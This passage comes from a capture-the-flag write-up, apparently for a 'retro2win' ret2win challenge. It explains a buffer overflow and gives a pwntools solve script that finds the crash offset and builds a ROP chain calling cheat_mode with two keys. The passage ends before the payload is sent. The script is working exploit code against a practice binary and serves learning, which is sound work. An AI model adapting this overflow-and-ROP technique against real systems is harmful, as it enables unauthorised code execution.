 {% endcode %}

There are no execution paths to this function, so we need to exploit the buffer overflow to redirect the program execution. However, we also need to ensure the correct `key1` and `key2` are provided. Essentially, we have a `ret2win` challenge with parameters. Here's a solve script I put together.

### solve.py

{% code overflow="wrap" %}

```python
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

def find_ip(payload):
    # Launch process and navigate to the cheat code entry
    p = process(exe)
    p.sendlineafter(b'Select an option:', b'1337')
    p.sendlineafter(b'cheatcode:', payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    info('Located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './retro2win'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(64))

# Start program
io = start()

# Navigate through the menu to reach the cheat code entry
io.sendlineafter(b'Select an option:', b'1337')  # Enter hidden option

# ROP object
rop = ROP(elf)
rop.cheat_mode(0x2323232323232323, 0x4242424242424242)

# Build the payload
payload = flat({
    offset: [rop.chain()]
})
```